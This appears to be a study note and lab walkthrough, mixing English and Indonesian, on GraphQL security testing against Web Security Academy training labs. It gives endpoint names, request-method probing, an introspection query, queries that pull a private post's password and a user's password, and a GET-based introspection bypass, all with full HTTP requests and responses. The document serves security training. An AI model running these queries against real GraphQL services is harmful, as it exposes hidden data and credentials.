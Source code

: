 
## Common endpoint names

GraphQL services often use similar endpoint suffixes. When testing for GraphQL endpoints, you should look to send universal queries to the following locations:

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

## Metode permintaan

Langkah selanjutnya dalam mencoba menemukan titik akhir GraphQL adalah menguji menggunakan metode permintaan yang berbeda.

Praktik terbaik untuk titik akhir produksi GraphQL adalah hanya menerima permintaan POST yang memiliki tipe konten `application/json`, karena hal ini membantu melindungi dari kerentanan CSRF. Namun, beberapa titik akhir mungkin menerima metode alternatif, seperti permintaan GET atau permintaan POST yang menggunakan tipe konten `x-www-form-urlencoded`.


## Memanfaatkan argumen yang tidak bersih - Lanjutan

Misalnya, kueri di bawah ini meminta daftar produk untuk toko online:

```json
query {
  products {
    id
    name
    listed
  }
}

```

Daftar produk yang dikembalikan hanya berisi produk yang terdaftar.

```json
{
  "data": {
    "products": [
      {
        "id": 1,
        "name": "Product 1",
        "listed": true
      },
      {
        "id": 2,
        "name": "Product 2",
        "listed": true
      },
      {
        "id": 4,
        "name": "Product 4",
        "listed": true
      }
    ]
  }
}
```

Dari informasi ini, kami dapat menyimpulkan hal-hal berikut:

- Produk diberi ID berurutan.
- ID Produk 3 tidak ada dalam daftar, mungkin karena telah dihapus dari daftar.

Dengan menanyakan ID produk yang hilang, kami bisa mendapatkan detailnya, meskipun tidak terdaftar di toko dan tidak dikembalikan oleh permintaan produk asli.

```json
query 
	{ 
	 product(id: 3) 
	 { 
		id 
		name 
		listed 
	  } 
	}
```

```json
query {
  "data": {
    "product": {
      "id": 3,
      "name": "Product 3",
      "listed": "no"
    }
  }
}

```


---

# **SOLVE LAB:**


---

**LAB 1**

di sini saya mencari endpoint grapql terlebih dahulu, setelah mendapatakan endpoind nya saya menggunakan query 

```json
POST /graphql/v1 HTTP/2
Host: 0a7e001e04b4a59380c58ac7009d00b2.web-security-academy.net
Cookie: session=QowTnluzKRLLEUX9on6zj9zAkI3QqALL
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7e001e04b4a59380c58ac7009d00b2.web-security-academy.net/post?postId=4
Content-Type: application/json
Content-Length: 106
Origin: https://0a7e001e04b4a59380c58ac7009d00b2.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

{"query":"{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}"}
```


untuk mencari filed apa aja yang tersedia, setelah itu 

```json
POST /graphql/v1 HTTP/2
Host: 0a7e001e04b4a59380c58ac7009d00b2.web-security-academy.net
Cookie: session=QowTnluzKRLLEUX9on6zj9zAkI3QqALL
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7e001e04b4a59380c58ac7009d00b2.web-security-academy.net/post?postId=4
Content-Type: application/json
Content-Length: 281
Origin: https://0a7e001e04b4a59380c58ac7009d00b2.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n  isPrivate\n       postPassword\n      }\n    }","operationName":"getBlogPost","variables":{"id":3}}
```

dan akan mendapatkan sebuah password nya

```json
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3203

{
  "data": {
    "getBlogPost": {
      "image": "/image/blog/posts/24.jpg",
      "title": "The Reverse Bucket List",
      "author": "Neil Beforeme",
      "date": "2024-08-20T15:52:06.922Z",
      "paragraphs": [
        "I have yet to create a bucket list, mainly because I'm not very adventurous and don't want to do anything that will scare the pants off me. With my weekends wasting away with a huge dose of apathy and only a spoonful of activity, I felt it was time to try something new. I like to call it the Reverse Bucket List, doing things you think you should do, but don't really want to.",
        "The first class I signed up to was freefall yoga. I wasn't sure of the freefall part but I'd seen great videos of people doing yoga in hammock type things and thought it would probably be a bit like that. At this point it's worth mentioning I hate yoga, I thought I'd start with the things I hate the most and work up.",
        "Weeks of grueling body bending ensued and not a hammock in sight. The only falling taking place was when I tried to get out of bed in the mornings. Why would something that promotes suppleness and fitness leave you incapable of descending the stairs and leave you with the added inability to dress yourself as you can no longer lift your arms above your head?",
        "The day of certification was drawing close and there seemed to be great excitement among the group. We were rather oddly, I thought, asked to meet the following weekend at a local airfield. It was to be a weekend affair with swanky overnight accommodation and Canap's. On arrival, we were greeted with a glass of champagne and asked to change into our yoga gear. What followed next will haunt me until the day I die.",
        "If I didn't recognize my group and our yogini, I would have assumed I'd turned up at the wrong venue and made my excuses. It is not unheard of for me to turn up at the wrong venue. At the end of a long weekend of parachute drills - which I assumed was all in aid of team building - we were led out to the airstrip and boarded a light aircraft. It was at this point I started to get a little suspicious. We were instructed to begin our descent in a Chakrasana position, double flip it, twist into a Trikonasana, and land in a Tadasana.",
        "Jumping from an airplane has never been on my Bucket List, and certainly not on my reverse bucket list. Despite my squealing protests, I was pushed forward until I was teetering on the edge of despair. Someone shouted, 'assume the pose' as I flopped into a downward descent. There were poses, none of them yoga poses, I made a star jump as I floundered to find something to hold on to, nothing but air up there. I then passed out and miraculously landed on a large trampoline bouncing me back up into the air, inadvertently landing in a Gomukhasana. To those of you who don't know what that is, it basically looks like a jumbled mess.",
        "Needless to say, there wasn't a certificate presented to me that day. I am now reevaluating my life goals and reading the small print in all paperwork from now on."
      ],
      "isPrivate": true,
      "postPassword": "gdkx4hlauabey77y8ydax0xr3iq6evw3"
    }
  }
}
```


**LAB 2**

cara nya hampir sama kayak  **Lab 1** ,

```json
POST /graphql/v1 HTTP/2
Host: 0a12006104090d1e8347786200510083.web-security-academy.net
Cookie: session=YwK1fJ0zaVkC0MBwsPwCNkfKCa35CjED
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a12006104090d1e8347786200510083.web-security-academy.net/login
Content-Type: application/json
Content-Length: 198
Origin: https://0a12006104090d1e8347786200510083.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{
  "query": "\n    query getUser($id: Int!) {\n        getUser(id: $id) {\n            id\n            username\n            password\n        }\n    }",
  "variables": {
    "id": 1
  }
}
```

## Bypassing GraphQL introspection defenses 

	Introspection probe as GET request GET 


```json
/graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

